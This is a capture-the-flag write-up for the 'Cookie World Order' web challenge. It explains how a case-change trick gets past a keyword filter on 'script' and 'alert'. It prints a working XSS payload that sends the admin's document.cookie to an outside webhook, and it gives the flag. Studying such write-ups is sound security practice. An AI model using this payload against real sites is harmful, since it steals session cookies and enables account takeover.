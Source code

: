 [../](../../)

# Cookie World Order

## web

> Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!
>
> [https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/)

The webpage lets you send messages in a chat and the admin is part of it. The url already hints, that it is a XSS challenge, where we have probably to leak the cookie from the admin, due to the challenge name.

So let's check for XSS and post a message that contains the `<script>` tag. Okay, not working, the message gets replaced with `HACKER ALERT!`.

Interestingly other tags, like `<img>` are working, the filter seems to check at least, if the message contains `script` or `alert`. But how good is this filter? When changing at least one letter to uppercase, it already seems to bypass it. So lets create a payload and try to leak the admin cookies to our webhook.

XSS payload:

```javascript
<SCRIPT>
	y = new XMLHttpRequest();
	y.open("GET", "https://webhook.site/02ad0379-670a-4c99-85ea-48b314484949/?" + document.cookie);
	y.send()
</SCRIPT>
```

Shortly after posting the message, the webhook receives a request with the admin cookies that contain the flag.

flag: `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`